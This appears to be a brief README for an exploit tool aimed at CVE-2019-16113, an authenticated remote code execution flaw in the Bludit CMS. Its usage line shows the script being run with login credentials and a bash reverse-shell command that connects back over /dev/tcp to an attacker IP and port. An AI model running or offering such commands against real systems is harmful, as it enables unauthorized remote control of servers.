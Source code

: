 # CVE-2019-16113
CVE-2019-16113  - bludit >= 3.9.2 RCE authenticate

# Usage 

python CVE-2019-16113.py -u http://10.10.10.10 -user user -pass secret  -c "bash -c 'bash -i >& /dev/tcp/10.10.14.172/1337 0>&1'"

# Example

 ![](bludit.png)
